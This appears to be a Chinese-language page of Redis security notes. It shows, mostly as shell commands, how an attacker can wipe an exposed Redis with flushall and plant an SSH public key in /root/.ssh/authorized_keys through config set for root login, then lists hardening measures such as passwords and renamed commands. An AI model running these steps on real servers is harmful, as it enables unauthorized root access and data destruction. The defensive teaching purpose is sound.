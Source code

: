 ```shell
>> redis-cli -h 123.45.67.89 -p 6379 ping
>> PONG
>> redis-cli -h 123.16.14.182 -p 6379 flushall
>> OK
```

在攻击者服务器生成一个公钥，并将公钥保存到一个id_rsa.pub中

```shell
>> ssh-keygen -C rsa -t "email@gmail"
>> cat id_rsa.pub
```

将公钥内容作为value添加到redis中

```shell
>> redis-cli -h 123.45.67.89 -p 6379 -x set crackit
>> redis-cli -h 123.45.67.89 -p 6379 get crackit
```

将redis的dir设置为/root/.ssh目录，dbfilename设置为authorized_keys

```shell
123.45.67.89:6379> config set dir /root/.ssh
OK
123.45.67.89:6379> config set dbfilename authorized_keys
OK
123.45.67.89:6379> save
OK
```

此时，因为被攻击者服务器上已经有了攻击者的公钥，即攻击者可以用ssh进行登录

### 安全七法则

#### 设置密码

服务端配置：requirepass和masterauth

客户端连接：auth命令和-a参数

注意事项
* 密码要足够复杂，因为redis性能太强，暴力破解比较简单
* 不要忘记masterauth
* auth是通过明文传输的，所以是有被盗窃的风险

#### 伪装危险命令

原理：类似linux的alias，将一些命令重新起个名字

实现：在配置文件中

```shell
rename-command flushall abc
```

注意事项

* 不支持动态 config set
* RDB或AOF如果包含有rename-command之前的命令，将无法使用
* config命令本身在redis内核中会使用到，不建议重命名
